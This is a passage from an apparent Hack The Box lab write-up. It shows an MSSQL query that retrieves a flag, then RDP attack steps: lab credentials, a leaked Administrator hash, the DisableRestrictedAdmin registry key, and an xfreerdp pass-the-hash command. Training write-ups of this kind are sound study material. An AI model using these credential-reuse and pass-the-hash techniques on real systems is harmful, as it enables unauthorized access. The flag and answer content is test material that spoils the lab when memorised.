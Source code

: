 ```c
ProgramData                     1      0   

SQL2019                         1      0   

System Volume Information       1      0   

Temp                            1      0   

Users                           1      0   

Windows                         1      0   

SQL (WIN-02\mssqlsvc  WINSRV02\mssqlsvc@flagDB)> select table_name from information_schema.tables
table_name   
----------   
tb_flag      

SQL (WIN-02\mssqlsvc  WINSRV02\mssqlsvc@flagDB)> select * from tb_flag

flagvalue                              
------------------------------------   
b'HTB{!_l0v3_#4$#!n9_4nd_r3$p0nd3r}'   

```

### Attacking RDP

RDP to with user "htb-rdp" and password "HTBRocks!" 

10. What is the name of the file that was left on the Desktop? (Format example: filename.txt) 

To do that we need to log in to RDP via xfreerdp for example:
```c
xfreerdp /v:10.129.26.153 /u:htb-rdp /p:HTBRocks!
```

And on the desktop we see the file: pentest-notes.txt which contains the following message:
```
We found a hash from another machine Administrator account, we tried the hash in this computer but it didn't work, it doesn't have SMB or WinRM open, RDP Pass the Hash is not working.

User: Administrator
Hash: 0E14B9D6330BF16C30B1924111104824
```

11. Which registry key needs to be changed to allow Pass-the-Hash with the RDP protocol? 

DisableRestrictedAdmin - simply read the module

12.  Connect via RDP with the Administrator account and submit the flag.txt as you answer. 

As we have hash it is one command that separates us from obtaining the flag now:
```c
xfreerdp /v:10.129.26.153 /u:Administrator /pth:0E14B9D6330BF16C30B1924111104824
```
